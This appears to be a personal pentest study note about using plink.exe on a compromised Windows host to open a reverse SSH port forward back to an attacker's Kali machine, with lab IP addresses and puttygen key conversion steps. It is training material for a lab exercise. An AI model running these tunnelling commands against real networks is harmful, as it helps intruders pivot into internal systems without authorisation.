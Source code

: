 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

| Kali | Vic1 | Vic2 | 
| --- | --- | --- |
| 172.16.0.20 | 172.16.0.5 | 172.16.0.10

https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html

![[Pasted image 20220116113036.png]]

Plink.exe is a Windows command line version of the PuTTY SSH client. Now that Windows comes with its own inbuilt SSH client, plink is less useful for modern servers; however, it is still a very useful tool, so we will cover it here.

Generally speaking, Windows servers are unlikely to have an SSH server running so our use of Plink tends to be a case of transporting the binary to the target, then using it to create a reverse connection. This would be done with the following command:

```command prompt - target
cmd.exe /c echo y | .\plink.exe -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -N
```

Notice that this syntax is nearly identical to previously when using the standard OpenSSH client. The `cmd.exe /c echo y` at the start is for non-interactive shells (like most reverse shells -- with Windows shells being difficult to stabilise), in order to get around the warning message that the target has not connected to this host before.

To use our example from before, if we have access to 172.16.0.5 and would like to forward a connection to 172.16.0.10:80 back to port 8000 our own attacking machine (172.16.0.20), we could use this command:

```command prompt - target
cmd.exe /c echo y | .\plink.exe -R 8000:172.16.0.10:80 kali@172.16.0.20 -i KEYFILE -N
```

Note that any keys generated by `ssh-keygen` will not work properly here. You will need to convert them using the `puttygen` tool, which can be installed on Kali using 

```bash - kali
sudo apt install putty-tools
```

 After downloading the tool, conversion can be done with:  

```bash - kali
puttygen KEYFILE -o OUTPUT_KEY.ppk
```

The resulting `.ppk` file can then be transferred to the Windows target and used in exactly the same way as with the Reverse port forwarding taught in the previous task (despite the private key being converted, it will still work perfectly with the same public key we added to the authorized_keys file before).  

_**Note:** Plink is notorious for going out of date quickly, which often results in failing to connect back. Always make sure you have an up to date version of the_ `.exe`_. Whilst there is a copy pre-installed on Kali at_ `/usr/share/windows-resources/binaries/plink.exe`_, downloading a new copy from [here](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html) before a new engagement is sensible._
